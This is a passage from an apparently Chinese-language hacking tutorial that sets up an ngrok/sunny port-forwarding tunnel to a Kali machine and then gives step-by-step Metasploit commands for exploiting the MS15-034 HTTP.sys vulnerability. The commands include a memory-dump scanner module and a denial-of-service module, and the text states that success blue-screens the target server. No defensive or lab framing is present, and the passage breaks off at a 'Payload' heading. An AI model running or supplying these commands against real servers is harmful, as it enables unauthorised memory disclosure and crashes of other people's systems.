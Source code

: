 这里我介绍一款工具。

`Ngrok Linux`端口转发工具：https://www.ngrok.cc

先去网站注册一个用户`，然后申请免费的隧道`。

选择TCP协议，自定义远程端口，本地IP地址就是kali的IP地址，端口自定义，但不要冲突。

申请好后，记住你的隧道id，用于连接。

把这款工具下载到kali，然后进到该目录，输入如下命令，即可。

启动程序：
```
./sunny clientid 隧道id
```
![](img/16.png)

> 如下图所示，则说明端口映射成功。

![](img/17.png)

> Ok，咱们启动msf利用此漏洞攻击目标服务器。

### cmd下msfconsole进入msf，输入
```
search MS15-034 (查询此漏洞的利用模块)
```
### 好，我们选用第二个辅助攻击模块。

> Use+模块名称
```
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump   //调用模块
```
```
set RHOST ip  //设置攻击的目标ip
```
```
exploit  //执行漏洞攻击
```

> <h2>PS:如果成功，目标就会蓝屏</h2>
代码如下：
```
use auxiliary/dos/http/ms15_034_ulonglongadd  //设置辅助攻击模块

set rhosts ip  //设置目标机ip

set threads 10  //设置线程数

Exploit  //攻击
```


## 常用代码说明

### Payload
